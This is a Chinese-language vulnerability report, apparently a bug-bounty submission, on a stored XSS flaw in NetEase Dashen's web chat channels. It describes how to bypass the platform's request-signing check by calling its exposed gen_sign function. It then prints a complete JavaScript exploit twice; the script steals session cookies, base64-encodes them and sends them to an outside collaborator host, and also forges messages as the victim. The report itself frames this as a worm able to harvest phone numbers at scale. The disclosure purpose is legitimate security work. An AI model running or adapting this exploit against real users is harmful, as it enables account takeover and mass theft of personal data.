

## 漏洞名称

> 网易大神Web端频道签到消息存在存储型XSS漏洞

## 漏洞类型
> web漏洞，存储型XSS

## 危害等级
> 高危

## 漏洞URL
- POST https://inf-im.ds.163.com/v1/web/chat-room-msg/send-msg
- POC网页 https://ds.163.com/channel/0149881854/1459481/ 打开后在终端打印111222233
- 视频链接：链接：https://pan.baidu.com/s/1468B0QCK8zEIu7MtIVb4CQ 提取码：1314

## 关键数据包

    POST /v1/web/chat-room-msg/send-msg HTTP/1.1
    Host: inf-im.ds.163.com
    Connection: close
    Content-Length: 586
    GL-CheckSum: 20c428fbe325f20d1ff139943dafd2334814804e_28aebbff3e33281f4afe3ebcf0b19ae90ba97998
    sec-ch-ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
    sec-ch-ua-mobile: ?0
    GL-Uid: xxxxxxx
    GL-DeviceId: 1189888043.1694780319
    Content-Type: application/json;charset=UTF-8
    Accept: application/json, text/plain, */*
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
    GL-ClientType: 61
    GL-Nonce: xxxx
    GL-X-XSRF-TOKEN: xxxxx
    sec-ch-ua-platform: "Windows"
    Origin: https://ds.163.com
    Sec-Fetch-Site: same-site
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: https://ds.163.com/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja-JP;q=0.6,ja;q=0.5
    Cookie: xxx

    { "serverId": "0149881871", "channelId": "1459515", "squareId": "60054a7dd5456877d226706e", "fromUid": "b1fbb501020c46ff88577a3fe103c0ec", "fromNick": "", "msgType": "CHAT_ROOM_MSG", "sourceType": "GOD_WEB", "content": [{ "type": "TITLE", "data": { "banner": "", "icon": "https://ok.166.net/reunionpub/pr_ie_b9j52wbl0e3l6hvzjbq\u003d\u003d_50_1535083040_870", "atUser": "@灯中烛火", "text": "签到成功！" }, "order": 0.0 }, { "type": "TEXT", "data": "", "order": 1.0 }, { "type": "BUTTON", "data": [{ "text": "立即抽奖", "action": { "type": "OPEN_URL", "data": "https://act.ds.163.com/caa6e9455189fb93/64eeea62ee5826000175e65a?utm_source\u003dchatroom\u0026utm_medium\u003dbot+" } }], "order": 2.0 }], "contentType": "IMAGE_TEXT_TEMPLATE" }

## 漏洞描述
网易大神web版中，聊天频道发布签到消息(IMAGE_TEXT_TEMPLATE)时，没有对签到的内容进行过滤，而是直接将签到内容赋值给innerHTML，直接造成存储型XSS攻击。

### 详细说明
请按照逻辑对漏洞复现进行描述，提供危害说明和测试步骤。若使用工具复现漏洞，应提供工具详情

#### 漏洞触发
1. 登录大神Web平台 https://ds.163.com/
2. 进入频道，选择任意频道测试发消息，例如进入测试频道 https://ds.163.com/channel/0149881871/1459515/
发消息测试，并且通过burpsuite观察请求包结构

    

    可以从请求头header中看到，前端对请求体做了校验，攻击者直接修改请求体是不可行的
    

3. 为了绕过校验，对前端的校验流程进行简单的逆行分析定位到校验函数，并且成功获取函数handler。
    https://g.166.net/res/a19/umi.b2e4db33.js 中的gen_sign函数对原始的请求体进行了校验并且返回校验的结果，如下：
    
    继续分析，发现gen_sign函数来源于https://g.166.net/opd/latest/sig/bootstrap.js的sig模块，通过sig.default()能够初始化并且返回模块，从而获取到gen_sign函数handler
    
    测试对请求体进行校验：
    
    
4. 至此，我们能够对请求体进行篡改并且带上合法的校验头。通过debug发现签到消息直接渲染到了前端没有进行过滤。这点是通过untrusted type chrome插件定位的。
5. 而签到消息的结构体可以从消息获取请求中得到，如下图。获取结构体后，我们便可以构造xss payload，并且发送该消息。
    
    
    
    由此构造最终的xss payload，其中serverID，channelID，squareID分别是频道相关的id号，表示需要把消息发送给哪个聊天群。fromUid是消息发送者的id，content.data字段便是xss的注入点位, contentType务必填写IMAGE_TEXT_TEMPLATE类型：

    { "serverId": "0149881854", "channelId": "1459481", "squareId": "60054a7dd5456877d226706e", "fromUid": "b1fbb501020c46ff88577a3fe103c0ec", "fromNick": "", "msgType": "CHAT_ROOM_MSG", "sourceType": "GOD_WEB", "content": [{ "type": "TITLE", "data": { "banner": "", "icon": "https://ok.166.net/reunionpub/pr_ie_b9j52wbl0e3l6hvzjbq\u003d\u003d_50_1535083040_870", "atUser": "@灯中烛火", "text": "签到成功！" }, "order": 0.0 }, { "type": "TEXT", "data": "", "order": 1.0 }, { "type": "BUTTON", "data": [{ "text": "立即抽奖", "action": { "type": "OPEN_URL", "data": "https://act.ds.163.com/caa6e9455189fb93/64eeea62ee5826000175e65a?utm_source\u003dchatroom\u0026utm_medium\u003dbot+" } }], "order": 2.0 }], "contentType": "IMAGE_TEXT_TEMPLATE" }
    
    为简化操作，写一个js文件，实现自动发帖，将上述payload通过本js脚本发送，请在大神网页的Console中执行。

        // burpsuite collaborator url
        const api_burp = 'https://e9op59j1geov80qd4hiuakntnktch3fr4.oastify.com'
        // init webassembly and get sig_gen function
        // 获取签名函数，该函数的实现为webassembly，但是全局模块sig暴露webassembly的接口，可以直接进行调用
        var moduleX;
        Promise.all([sig.default()]).then(function (t) {
            moduleX = t
        })

        // 获取cookie信息
        const getCookieValue = (name) => (
            document.cookie.match('(^|;)\\s*' + name + '\\s*=\\s*([^;]+)')?.pop() || ''
        )

        const myFetch = async (url, headers) => {
            let data = await fetch(url, {
                method: 'GET',
                headers: headers,
                credentials: 'include'
            })
            let res = await data.json();
            return res
        }
        // 构造GET发送请求
        const setHeaderDs = (payload) => {
            var GL_X_XSRF_TOKEN = getCookieValue('GL-XSRF-TOKEN')
            var GL_Uid = getCookieValue('GOD_UUID')
            var checkres = moduleX['0'].gen_sign(payload)
            var checkjson = JSON.parse(checkres)
            var GL_CheckSum = checkjson['sign']
            var GL_Nonce = checkjson['timestamp']
            var GL_ClientType = 61
            var GL_DeviceId = localStorage.getItem('ns-client-id')
            var headers = {
                'GL-CheckSum': GL_CheckSum,
                'GL-Nonce': GL_Nonce,
                'GL-Uid': GL_Uid,
                'GL-DeviceId': GL_DeviceId,
                'GL-ClientType': GL_ClientType,
                'GL-X-XSRF-TOKEN': GL_X_XSRF_TOKEN,
                'Content-Type': 'application/json;charset=UTF-8'
            }
            return headers
        }

        // 构造POST发送请求
        const myPostFetch = async (url, headers, payload) => {
            let data = await fetch(url, {
                method: 'POST',
                headers: headers,
                credentials: 'include',
                body: JSON.stringify(payload),
            })
            let res = await data.json();
            return res
        }

        // 通过img src来向burpsuite collaborator url外送敏感新信息
        const justSend = async url => {
            var Img = new Image
            Img.src = url
        }

        // base64 加解密
        const encode = str => {
            var b64 = btoa(unescape(encodeURIComponent(str)))
            return b64
        }
        const decode = str => {
            var str = decodeURIComponent(escape(atob(str)));
            return str
        }
        //获取并发送cookie，带有手机号
        const sendCookie = () => {
            var encoded = encode(document.cookie)
            // send data
            justSend(api_burp + '?data=' + encoded)
        }

        // 发送xss payload
        const startSendLinkMessage = async function () {

            // 链接，设置fromUid为攻击者的UID
            var payload_json = { "serverId": "0149881854", "channelId": "1459481", "squareId": "60054a7dd5456877d226706e", "fromUid": "b1fbb501020c46ff88577a3fe103c0ec", "fromNick": "", "msgType": "CHAT_ROOM_MSG", "sourceType": "GOD_WEB", "content": [{ "type": "TITLE", "data": { "banner": "", "icon": "https://ok.166.net/reunionpub/pr_ie_b9j52wbl0e3l6hvzjbq\u003d\u003d_50_1535083040_870", "atUser": "@灯中烛火", "text": "签到成功！" }, "order": 0.0 }, { "type": "TEXT", "data": "", "order": 1.0 }, { "type": "BUTTON", "data": [{ "text": "立即抽奖", "action": { "type": "OPEN_URL", "data": "https://act.ds.163.com/caa6e9455189fb93/64eeea62ee5826000175e65a?utm_source\u003dchatroom\u0026utm_medium\u003dbot+" } }], "order": 2.0 }], "contentType": "IMAGE_TEXT_TEMPLATE" }

            var headers = setHeaderDs(JSON.stringify(payload_json))
            res = await myPostFetch('https://inf-im.ds.163.com/v1/web/chat-room-msg/send-msg', headers, payload_json)
        }
        startSendLinkMessage()

6. 结果展示
    payload已经渲染到前端

    
    payload已经执行：

    

7. 该XSS的利用

- 首先是窃取cookie，可能会带有邮箱和手机号信息
[cookie](./images/cookie.png)
- 伪造发送消息等
前面通过脚本发送合法请求，已经足够证明攻击者能伪造用户发送消息。只需要把该脚本上传到https服务器，并且通过xss payload下载恶意脚本，能够执行更加复杂的逻辑。

### 漏洞证明
请提供截图或视频
视频链接：链接：https://pan.baidu.com/s/1468B0QCK8zEIu7MtIVb4CQ 提取码：1314
完整利用脚本如下：

        // burpsuite collaborator url
        const api_burp = 'https://e9op59j1geov80qd4hiuakntnktch3fr4.oastify.com'
        // init webassembly and get sig_gen function
        // 获取签名函数，该函数的实现为webassembly，但是全局模块sig暴露webassembly的接口，可以直接进行调用
        var moduleX;
        Promise.all([sig.default()]).then(function (t) {
            moduleX = t
        })

        // 获取cookie信息
        const getCookieValue = (name) => (
            document.cookie.match('(^|;)\\s*' + name + '\\s*=\\s*([^;]+)')?.pop() || ''
        )

        const myFetch = async (url, headers) => {
            let data = await fetch(url, {
                method: 'GET',
                headers: headers,
                credentials: 'include'
            })
            let res = await data.json();
            return res
        }
        // 构造GET发送请求
        const setHeaderDs = (payload) => {
            var GL_X_XSRF_TOKEN = getCookieValue('GL-XSRF-TOKEN')
            var GL_Uid = getCookieValue('GOD_UUID')
            var checkres = moduleX['0'].gen_sign(payload)
            var checkjson = JSON.parse(checkres)
            var GL_CheckSum = checkjson['sign']
            var GL_Nonce = checkjson['timestamp']
            var GL_ClientType = 61
            var GL_DeviceId = localStorage.getItem('ns-client-id')
            var headers = {
                'GL-CheckSum': GL_CheckSum,
                'GL-Nonce': GL_Nonce,
                'GL-Uid': GL_Uid,
                'GL-DeviceId': GL_DeviceId,
                'GL-ClientType': GL_ClientType,
                'GL-X-XSRF-TOKEN': GL_X_XSRF_TOKEN,
                'Content-Type': 'application/json;charset=UTF-8'
            }
            return headers
        }

        // 构造POST发送请求
        const myPostFetch = async (url, headers, payload) => {
            let data = await fetch(url, {
                method: 'POST',
                headers: headers,
                credentials: 'include',
                body: JSON.stringify(payload),
            })
            let res = await data.json();
            return res
        }

        // 通过img src来向burpsuite collaborator url外送敏感新信息
        const justSend = async url => {
            var Img = new Image
            Img.src = url
        }

        // base64 加解密
        const encode = str => {
            var b64 = btoa(unescape(encodeURIComponent(str)))
            return b64
        }
        const decode = str => {
            var str = decodeURIComponent(escape(atob(str)));
            return str
        }
        //获取并发送cookie，可能带有手机号
        const sendCookie = () => {
            var encoded = encode(document.cookie)
            // send data
            justSend(api_burp + '?data=' + encoded)
        }

        // 发送xss payload
        const startSendLinkMessage = async function () {

            // 链接，设置fromUid为攻击者的UID
            var payload_json = { "serverId": "0149881854", "channelId": "1459481", "squareId": "60054a7dd5456877d226706e", "fromUid": "b1fbb501020c46ff88577a3fe103c0ec", "fromNick": "", "msgType": "CHAT_ROOM_MSG", "sourceType": "GOD_WEB", "content": [{ "type": "TITLE", "data": { "banner": "", "icon": "https://ok.166.net/reunionpub/pr_ie_b9j52wbl0e3l6hvzjbq\u003d\u003d_50_1535083040_870", "atUser": "@灯中烛火", "text": "签到成功！" }, "order": 0.0 }, { "type": "TEXT", "data": "", "order": 1.0 }, { "type": "BUTTON", "data": [{ "text": "立即抽奖", "action": { "type": "OPEN_URL", "data": "https://act.ds.163.com/caa6e9455189fb93/64eeea62ee5826000175e65a?utm_source\u003dchatroom\u0026utm_medium\u003dbot+" } }], "order": 2.0 }], "contentType": "IMAGE_TEXT_TEMPLATE" }

            var headers = setHeaderDs(JSON.stringify(payload_json))
            res = await myPostFetch('https://inf-im.ds.163.com/v1/web/chat-room-msg/send-msg', headers, payload_json)
        }
        // 判断pc端还是手机端
        const isMobile = /iPhone|iPad|iPod|Android/i.test(navigator.userAgent);
        if (isMobile) {
            /* your code here */
        } else {
            //web端
            //发送cookie
            sendCookie()
            //伪造发分享消息
            startSendLinkMessage()
        }

## 漏洞危害
该漏洞影响网页端所有聊天频道，注意到每个游戏频道都有几十上百万用户，影响深远。用户只要进入聊天界面，无需任何操作就能够遭受攻击。
1. 攻击者可以在聊天群直接嵌入XSS，无需受害者进行操作，能够大规模收集平台用户手机号和账号信息，造成敏感信息泄漏；
2. 攻击者可以在聊天群直接嵌入XSS，无需受害者进行操作，能够伪造用户发消息等，制造XSS蠕虫，实现XSS帖子的自我复制，扩大影响。

## 修复建议
1. 对签到的内容进行过滤，而非直接复杂给innerHTML

